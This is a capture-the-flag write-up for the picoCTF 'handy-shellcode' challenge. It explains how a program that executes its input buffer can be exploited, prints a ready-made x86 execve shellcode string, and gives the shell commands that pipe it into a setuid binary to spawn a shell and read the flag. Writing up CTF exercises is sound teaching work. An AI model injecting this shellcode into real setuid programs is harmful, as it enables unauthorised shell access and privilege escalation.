 # handy-shellcode
This [program](https://github.com/Xaplomian/DissimuloPicoCTFWriteUps/raw/master/Binary%20Exploitation/handy-shellcode/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

# Hint
You might be able to find some good shellcode online.

# Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which we usually have to execute ourselves. However, the challenge does this for us in this line of code:
```((void (*)())buf)();```
This means that the program will treat that address in memory as a series of opcodes and run them.
Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. This shellcode will run a shell for us as the root user, since we are running a setuid binary, with permissions to also view the files in the directory, thus we can read flag.txt. Write this shellcode to a file in the home directory, and `cat` out the contents of that file, with a tack before the pipe to keep the stdin pipe open.
```bash
python3 -c print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80') > ~/shellcode.txt
cat ~/shellcode.txt - | ./vuln
ls
cat flag.txt
```
